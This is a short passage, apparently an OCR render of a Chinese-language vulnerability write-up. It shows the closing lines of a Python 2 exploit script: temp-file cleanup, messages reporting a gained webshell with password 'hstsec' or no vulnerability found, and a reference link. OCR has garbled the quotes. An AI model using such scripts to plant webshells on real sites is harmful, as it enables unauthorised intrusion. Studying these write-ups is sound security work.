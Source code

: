 ```
os.remove(‘oneok’.php’)

except Exception:

print ‘\n[x] 删除临时文件失败,请手工删除!’

if ok:

print ‘\n[!] 爷,人品暴发了，成功得到Shell：\n\n%s 密码：%s’ % (ok, ‘hstsec’)

else:

print ‘\n[x] 报告大爷,本站不存在此漏洞!’

print ‘\n报告爷,脚本执行完毕,用时:’, time.time() - start, ‘秒!’` 
```

## 四、参考链接

> https://blog.csdn.net/Fly_hps/article/details/80582751